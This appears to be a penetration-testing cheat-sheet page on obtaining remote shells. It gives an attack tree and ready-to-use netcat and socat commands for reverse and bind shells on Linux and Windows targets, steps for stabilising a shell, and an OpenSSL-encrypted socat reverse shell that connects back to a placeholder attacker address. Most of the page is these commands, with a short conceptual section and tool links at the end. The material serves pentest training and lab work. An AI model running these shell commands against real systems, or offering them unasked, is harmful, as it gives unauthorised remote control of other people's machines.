 # Shells

## Attack tree

```text
1 Reverse shell
    1.1 Start a listener on attack machine
    1.2 Start a reverse shell on target machine
2 Bind shell
    2.1 Start a listener on target machine
    2.2 Connect to listener on target from attack machine
```

## Examples

### Netcat shells

Starting a `netcat` listener on Linux for receiving from a reverse shell of the target:

    # nc -lvnp <port-number>

To obtain a bind shell on a target where there is already a listener waiting on a chosen port of the target:

    # nc <target-ip> <chosen-port>

Stabilise a `netcat` shell on Linux systems:

* Spawn a better featured bash shell
* Export to have access to term commands such as `clear`
* Background the shell with `Ctrl+Z`. Back in our own terminal, use `stty raw -echo; fg` to turn off terminal echo 
(which gives access to tab autocompletes, the arrow keys, and `Ctrl+C` to kill processes) and foreground the shell 
again. 

```text
adversary@kali:~# nc -lvnp <port-number>
listening on [any] <port-number>
connect to [...] from (UNKNOWN) [...]

python -c 'import pty;pty.spawn("/bin/bash")'
shell@linux:~$ export TERM=xterm
shell@linux:~$ ^Z
[1]+ Stopped        nc -lvnp <port-number>
adversary@kali:~# stty raw -echo; fg
nc -lvnp <port-number>

shell@linux:~$ whoami
shell
```
If the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). 
To fix this, type `reset` and press enter.

For Windows shells, `rlwrap` can give access to history, tab autocompletion and the arrow keys immediately when 
receiving a shell, but some manual stabilisation must still be used to be able to use `Ctrl+C` inside the shell. 
`rlwrap` is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

Then use:

    adversary@kali:~# rlwrap nc -lvnp <port-number>

The third way to stabilise a shell is to use a netcat shell as a stepping stone into a more fully-featured `socat` 
shell. 

### Socat shells

#### Reverse

A basic reverse shell listener in `socat`:

    adversary@kali:~# socat TCP-L:<port-number> -

To connect back to the listener on a Linux target system:

    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

To connect back to the listener on a Windows target system:

    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

#### Bind

Set up a listener on a Linux target:

    socat TCP-L:<PORT> EXEC:"bash -li"

Set up a listener on a Windows target:

    socat TCP-L:<PORT> EXEC:powershell.exe,pipes

The `pipes` argument interfaces between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target machine, connect to the waiting listener with:

    socat TCP:<TARGET-IP>:<TARGET-PORT> -

For a fully stable Linux tty reverse shell, use the `tty` technique.

### Socat encrypted shells

Setting up an OPENSSL-LISTENER using the `tty` technique and a PEM file called `encrypt.pem`:

```text
adversary@kali:~# openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
adversary@kali:~# cat shell.key shell.crt > encrypt.pem
adversary@kali:~# socat OPENSSL-LISTEN:<port-number>,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

Connecting back to this listener from the target machine:

```text
socat OPENSSL:<IP address attack machine>:<port-number>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

* `pty` allocates a pseudoterminal on the target -- part of the stabilisation process
* `stderr` makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* `sigint` passes any `Ctrl+C` commands through into the sub-process, allowing for `kill` commands inside the shell
* `setsid` creates the process in a new session
* `sane` stabilises the terminal, attempting to "normalise" it.

## Notes

Shells are used for interfacing with a Command Line environment (CLI) like the common `bash` or `sh` programs in 
Linux, and the `cmd.exe` and `Powershell` on Windows. When targeting remote systems it is sometimes possible to force 
an application running on the server (such as a webserver, for example) to execute arbitrary code. When this happens, 
we want to use this initial access to obtain a shell running on the target.

* Reverse shells are when the target is forced to execute code that connects back to the attack computer. 
This requires setting up a listener which would be used to receive the connection on the attack machine. Reverse 
shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target.
* Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on 
the target. This would then be open up a port to receive on that you can connect to, and obtain remote code execution. 
This has the advantage of not requiring any configuration on the attack network, but may be prevented by firewalls 
protecting the target.

## Tools

* [Netcat](https://www.kali.org/tools/netcat/)
* [Socat](https://www.kali.org/tools/socat/)
* [Socat binaries](https://github.com/3ndG4me/socat/releases)
* [Metasploit -- multi/handler](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/handler)

## Resources